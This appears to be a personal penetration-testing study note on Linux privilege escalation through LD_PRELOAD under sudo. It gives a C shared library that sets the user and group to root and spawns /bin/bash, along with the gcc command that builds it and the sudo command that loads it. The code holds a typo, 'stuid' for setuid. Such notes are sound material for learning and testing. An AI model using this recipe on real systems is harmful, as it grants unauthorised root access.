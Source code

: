 `LD_PRELOAD` is used to specify a shared library `.so` that is charged before all the other libraries when a program is executed.

The idea is to create a custom shared library that contains a malicious code (*for example `system()`*) and the he can use `LD_PRELOAD` to charge this library when a program with `sudo` privilege is executed.


<mark style="background: #FFF3A3A6;">We start from:</mark>
```bash
sudo -l
```
- ![[Pasted image 20250116154802.png]]
- we can see `LD_PRELOAD`


# Create a malicious library

We create a `.c` file:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD"); //to unset this variable (avoid anomalies)
	setgid(0); //set our group as root
	stuid(0); //set our user as root
	system("/bin/bash");
}
```

Now we need to compile this file:
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
- `-fPIC` is used to make the code  independent from the position, it is used for shared libraries
- `-nostartfiles` means that we don't need a enter point in our code (like `main`) so the start files are not necessary



<mark style="background: #BBFABBA6;">At this point we can run any command or executable on which we have the `sudo` permission in this way:</mark>
```bash
sudo LD_PRELOAD=/FULL_PATH/shell.so COMMAND_OR_EXEC
```
- ![[Pasted image 20250116155738.png]]


## When we cannot do it?

1. When sudo ignores `LD_PRELOAD` (new updated system do that)
2. When the `LD_PRELOAD` is cleaned up form the program or the command is executed in a isolated env
3. When the system protects against it


